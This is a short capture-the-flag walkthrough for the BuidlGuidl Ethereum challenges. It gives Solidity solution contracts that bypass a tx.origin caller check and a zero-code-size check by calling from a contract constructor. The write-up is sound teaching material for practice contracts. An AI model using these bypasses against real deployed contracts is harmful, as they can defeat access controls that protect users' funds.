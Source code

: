 ```yaml
---
title: BuidlGuidl CTF Walkthrough
feed: show
date: 20-09-2025
permalink: /buidlguidl-ctf
format: list
---
```


Play the CTF [here](https://ctf.buidlguidl.com/)

## Challenge #1: **The Greeting**

This is a warm-up challenge where you just have to call the `registerMe()` function with your name as the argument. You can interact directly with the contract through Etherscan.

## Challenge #2: **Just Call Me Maybe**

This challenge has a similar function, `justCallMe()`, but you cannot call it directly through an EOA due to this check:

```solidity
require(msg.sender != tx.origin, "Not allowed");
```

The solution is then to just deploy a contract and call the function through it.

```solidity
//SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

interface IChallenge2 {
    function justCallMe() external;
}

contract Challenge2Answer {
    function callme(address challengeContract) public {
        IChallenge2(challengeContract).justCallMe();
    }
}
```

## Challenge #3: **Empty contract?**

A very similar challenge again where we need to call the `mintFlag()` function through a contract but it cannot have any code. That might sound impossible until you realize that contracts’ code size is zero until they are deployed. So, if the function is called in the constructor itself, the check will pass.

```solidity
//SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

interface IChallenge3 {
    function mintFlag() external;
}

contract Challenge3Answer {
    constructor(address challengeContract) {
        IChallenge3(challengeContract).mintFlag();
    }
}
```
